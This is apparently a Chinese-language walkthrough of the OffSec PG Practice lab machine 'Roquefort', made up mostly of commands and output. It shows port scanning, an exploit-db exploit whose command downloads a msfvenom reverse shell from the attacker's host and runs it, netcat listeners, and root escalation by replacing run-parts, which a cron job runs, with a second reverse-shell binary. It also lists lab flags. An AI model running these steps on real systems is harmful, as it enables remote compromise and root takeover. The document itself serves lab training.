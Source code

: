 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Roquefort
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.176.67 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.176.67:21
Open 192.168.176.67:22
Open 192.168.176.67:2222
Open 192.168.176.67:3000

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack ProFTPD 1.3.5b
22/tcp   open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
2222/tcp open  ssh     syn-ack Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open  ppp?    syn-ack
```

搜尋[edb-49383](https://www.exploit-db.com/exploits/49383)，先在`http://192.168.176.67:3000`註冊一個帳號使用
```
Username: admin1
Email Address: admin@gmail.com
Password: admin123
Re-Type Password: admin123
```

註冊好使用，開啟nc
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.184 LPORT=21 -f elf > shell_21

#修改49383.py
USERNAME = "admin1"
PASSWORD = "admin123"
HOST_ADDR = '192.168.45.184'
HOST_PORT = 3000
URL = 'http://192.168.176.67:3000'                                           
CMD = 'wget http://192.168.45.184:22/shell_21 -O /tmp/shell && chmod 777 /tmp/shell && /tmp/shell'       

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp21
```

等~好久反彈，在`/home/chloe`可取得local.txt
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
chloe@roquefort:/home/chloe$ cat local.txt
182eada99a88de25b94e24feb3448589
```

用`linpeas.sh`
```
chloe@roquefort:/tmp$ wget 192.168.45.184:22/linpeas.sh
chloe@roquefort:/tmp$ chmod +x linpeas.sh
chloe@roquefort:/tmp$ ./linpeas.sh

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/5 *   * * *   root    cd / && run-parts --report /etc/cron.hourly
```

這邊有一個很奇怪的`run-parts`，路徑為`/usr/local/bin`
跑`pspy64`
```
chloe@roquefort:/usr/local/bin$ wget 192.168.45.184:22/pspy64
chloe@roquefort:/usr/local/bin$ chmod +x pspy64
chloe@roquefort:/usr/local/bin$ ./pspy64

...
2024/04/15 04:30:01 CMD: UID=0     PID=1126   | run-parts --report /etc/cron.hourly 
...
```

製作一個reverse，等反彈
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.184 LPORT=2222 -f elf > shell_2222

chloe@roquefort:/usr/local/bin$ wget 192.168.45.184:22/shell_2222
chloe@roquefort:/usr/local/bin$ mv shell_2222 run-parts
chloe@roquefort:/usr/local/bin$ chmod 777 run-parts

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp2222
```

得root可至/root得proof.txt
```
root@roquefort:/root# cat proof.txt
4ca0d37429d9034576d5f612cb26a24b
```